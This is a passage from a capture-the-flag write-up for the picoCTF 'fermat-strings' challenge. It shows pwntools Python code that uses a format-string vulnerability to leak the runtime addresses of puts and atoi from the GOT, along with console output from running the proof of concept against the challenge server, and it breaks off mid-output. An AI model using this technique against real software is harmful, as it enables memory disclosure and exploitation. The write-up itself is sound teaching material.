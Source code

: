 ```python
output = send_format(io, f"%{fmt_first_offset}$s".encode("ascii"), p64(exe.got["puts"]))
puts_addr_str = output
puts_addr = int.from_bytes(puts_addr_str, "little") 
log.info(f"puts() runtime address: {hex(puts_addr)}")
```

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/fermat-strings]
└─$ python3 poc.py
[*] '/media/sf_CTFs/pico/fermat-strings/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to mars.picoctf.net on port 31929: Done
[*] puts() GOT address: 0x601018
[+] Opening connection to mars.picoctf.net on port 31929: Done
[*] Sending:
    A:
    b'1___%43$s'
    B:
    00000000  31 5f 5f 5f  5f 5f 5f 5f  18 10 60 00  00 00 00 00  │1___│____│··`·│····│
    00000010
[*] Received:
    00000000  a0 d5 80 e3  0b 7f                                  │····│··│
    00000006
[*] puts() runtime address: 0x7f0be380d5a0
[*] Closed connection to mars.picoctf.net port 31929
```

Let's add another leak - the `atoi` runtime address:

```python
log.info(f"puts() GOT address: {hex(exe.got['puts'])}")
log.info(f"atoi() GOT address: {hex(exe.got['atoi'])}")

fmt_first_offset = 43

io = start()
output = send_format(io, f"%{fmt_first_offset}$s.%{fmt_first_offset + 1}$s.".encode("ascii"), p64(exe.got["puts"]) + p64(exe.got["atoi"]))
puts_addr_str, atoi_addr_str, *rest = output.split(b".")
puts_addr = int.from_bytes(puts_addr_str, "little") 
log.info(f"puts() runtime address: {hex(puts_addr)}")
atoi_addr = int.from_bytes(atoi_addr_str, "little") 
log.info(f"atoi() runtime address: {hex(atoi_addr)}")
```

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/fermat-strings]
└─$ python3 poc.py
[*] '/media/sf_CTFs/pico/fermat-strings/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] puts() GOT address: 0x601018
[*] atoi() GOT address: 0x601058
[+] Opening connection to mars.picoctf.net on port 31929: Done
[*] Sending:
    A:
```